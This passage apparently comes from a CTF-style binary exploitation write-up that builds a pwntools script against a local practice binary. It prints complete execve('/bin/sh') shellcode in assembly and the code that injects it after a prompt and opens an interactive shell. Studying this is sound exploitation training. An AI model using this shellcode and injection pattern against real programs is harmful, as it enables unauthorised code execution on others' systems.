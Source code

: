 

<p>The exploit script will heavily use pwntools to quickly craft a working exploit. The exploit will begin like:</p>


```python=
from pwn import *
context.arch = "amd64"

io = process("./nothing")
g = gdb.attach(io)
```
This tells pwntools that we are working with an x86-64 binary and that the binary we want to interact with is ./nothing. Then immediately attach gdb to the process so we can do some debugging.
### Place our shellcode onto the stack
The shellcode we will use comes from `shellcraft.amd64.linux.sh()` and looks like:
```python=
/* execve(path='/bin///sh', argv=['sh'], envp=0) */
/* push '/bin///sh\x00' */
push 0x68
mov rax, 0x732f2f2f6e69622f
push rax
mov rdi, rsp
/* push argument array ['sh\x00'] */
/* push 'sh\x00' */
push 0x1010101 ^ 0x6873
xor dword ptr [rsp], 0x1010101
xor esi, esi /* 0 */
push rsi /* null terminate */
push 8
pop rsi
add rsi, rsp
push rsi /* 'sh\x00' */
mov rsi, rsp
xor edx, edx /* 0 */
/* call execve() */
push SYS_execve /* 0x3b */
pop rax
syscall
```
To send the shellcode to the binary we will use the following code:
```python=
shellcode = asm(shellcraft.amd64.linux.sh())
io.sendlineafter("> ",shellcode)
```
We need to assemble the shellcode which is why we wrap the function with asm, its also important that we specified the arch earlier so pwntools knows to assemble this shellcode for the x86-64 archetecture.

Then we send the shellcode to the binary after the "> ".

Then adding the line `io.interactive()` after will keep the binary running waiting for the next input.
